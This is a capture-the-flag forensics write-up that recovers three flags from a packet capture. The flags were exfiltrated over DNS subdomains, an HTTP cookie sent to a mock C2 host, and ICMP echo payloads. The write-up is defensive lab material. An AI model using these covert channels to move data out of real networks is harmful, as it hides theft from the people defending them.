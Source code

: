 # 🕵️ RDX Corporate Leak - Writeup

**Author**:Usman Ibrahim
**Category**: Forensics  
**Difficulty**: Medium 
**File**: `rdx_corporate_leak.pcap`  
**Flag Format**: `RDX{...}`

---

## 🧩 Challenge Summary

"RDX Corporation's SOC team intercepted suspicious network traffic.The attacker used **covert channels** to exfiltrate sensitive data without triggering alerts.At the end, combine the contents of the three flags (excluding the flag format: RDX{}) into a single final flag in the format:RDX{flag1_flag2_flag3} Note: Before combining sort the flags by the ASCII value of the 2nd character inside the braces (i.e., the second character of the flag content) in ascending order.",

---

## 🔍 Solution

The PCAP contains **three distinct covert exfiltration methods**:

---

### ✅ 1. DNS-Based Exfiltration

#### 🔎 Step-by-step:

1. Filter DNS traffic:
dns.qry.name contains "leak.rdxcorp.net"

2. Observe base32-encoded subdomains:
KJCFQ63ENY2V63BTGRVV6M3YMZUWY7I= → RDX{dn5_l34k_3xfil}

#### 🏁 Flag:
RDX{dn5_l34k_3xfil}

---

### ✅ 2. HTTP Header (Cookie) Exfiltration

#### 🔎 Step-by-step:

1. Filter HTTP GET requests:
http.request.method == "GET"

2. Inspect HTTP headers:
GET /report HTTP/1.1
Host: c2.rdxcorp.net
Cookie: session=RDX{http_c00kie_exfil}

#### 🏁 Flag:
RDX{http_c00kie_exfil}

---

### ✅ 3. ICMP Echo Payload Exfiltration

#### 🔎 Step-by-step:

1. Filter ICMP Echo requests:
icmp.type == 8

2. Inspect each ICMP packet's payload:
- Data bytes: 52 44 58 7b 31 63 6d 70 5f 74 75 6e 6e 33 6c 5f 6c 65 61 6b 7d
- ASCII equivalent: R D X { 1 c m p _ t u n n 3 l _ l e a k }

3. Reconstruct the flag:
RDX{1cmp_tunn3l_leak}

#### 🏁 Flag:
RDX{1cmp_tunn3l_leak}

---

## 🏁 Final Flags

| Method      | Flag                         |
|-------------|------------------------------|
| DNS         | `RDX{dn5_l34k_3xfil}`         |
| HTTP Cookie | `RDX{http_c00kie_exfil}`     |
| ICMP Echo   | `RDX{1cmp_tunn3l_leak}`       |

According to the flag format:

## 🏁 Final Flag
RDX{1cmp_tunn3l_leak_dn5_l34k_3xfil_http_c00kie_exfil}
---





